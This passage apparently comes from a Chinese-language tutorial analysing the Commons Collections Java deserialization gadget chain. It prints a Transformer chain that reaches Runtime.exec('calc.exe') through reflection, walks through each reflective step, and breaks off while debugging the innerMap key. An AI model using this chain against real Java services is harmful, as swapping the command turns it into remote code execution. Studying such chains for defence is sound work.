 所以我们不能直接`new ConstantTransformer(Runtime.getRuntime())`，还是借助反射来获取Runtime.getRuntime()，所以我们将poc更改为，这里Runtime.class是Class对象，可以序列化

```java
public static void main(String[] args) throws Exception {
         Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] { String.class,
                        Class[].class }, new
                        Object[] { "getRuntime",
                        new Class[0] }),
                new InvokerTransformer("invoke", new Class[] { Object.class,
                        Object[].class }, new
                        Object[] { null, new Object[0] }),
                new InvokerTransformer("exec", new Class[] { String.class },
                        new String[] {
                                "calc.exe" }),
        };
        // ......
    }
```

这里分析一下反射获取Runtime对象的过程

```java
Class cls = Runtime.class.getClass();
Method method = cls.getMethod("getMethod", new Class[] { String.class,
                        Class[].class });
Object object = method.invoke(Runtime.class, new Object[]{"getRuntime",
                        new Class[0] });
// 上面的代码等同于Object object = Runtime.class.getMethod("getRuntime", new Class[0])，object作为后面的input

Class cls = input.getClass();
Method method = cls.getMethod("invoke", new Class[] { Object.class,
                        Object[].class });
Object object = method.invoke(input, new Object[]{null, new Object[0]});
// 等同于object = input.invoke(null, new Object[0])，getRuntime方法是静态的，所以传递的参数为(null, new Object[0])

Class cls = input.getClass();
Method method = cls.getMethod("exec", new Class[] { String.class });
Object object = method.invoke(input, new String[] {"calc.exe"});
// 等同于object = input.exec("calc.exe")
```

继续运行改进后的poc，发现没有异常，但是也没有弹出计算机，对比现在poc和最终poc，发现只有一处不同`innerMap.put("test", "xxxx");`和`innerMap.put("value", "xxxx");`，这一点不同是如何影响我们的poc的，我们需要在调试中找到答案。

#### 尝试分析innerMap.put("value", "xxxx");

我们在调试最终的poc，在InvokerTransformer类的transform处打下断点，查看调用栈：
